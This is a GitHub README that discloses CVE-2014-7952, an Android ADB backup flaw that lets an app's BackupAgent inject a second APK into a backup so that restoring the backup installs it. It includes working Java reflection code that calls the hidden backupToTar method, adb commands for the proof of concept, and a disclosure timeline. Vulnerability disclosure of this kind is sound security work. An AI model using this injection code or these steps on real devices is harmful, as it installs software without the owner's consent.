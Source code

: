 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a BackupAgent (http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // getPackageName();
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
			/*
			FullBackup.backupToTar(getPackageName(), domain, null, rootpath, filePath, output.getData());
			Class<?> hs = Class.forName("java.util.HashSet");
			m = BackupAgent.class.getDeclaredMethod("fullBackupFileTree", String.class, String.class, String.class, hs, FullBackupDataOutput.class);
	      //m.invoke(d);//exception java.lang.IllegalAccessException
	      m.setAccessible(true);//Abracadabra 
	      m.invoke(this, packageName, "", "/data/tmp/evilApk", null, data);//now its ok
	      */
		} catch (Exception e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):
![ADB Backup Injection, custom BackupAgent](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the ABE tool [1]:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that the Wifi Test application was installed.
![ADB Backup Injection, injected Application](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, injected Application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today, 2015-07-08, all Android versions are affected, including Android L.

Timeline
--------
At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requests to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and keeps requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived


References
----------
1. [ABE](https://github.com/nelenkov/android-backup-extractor)
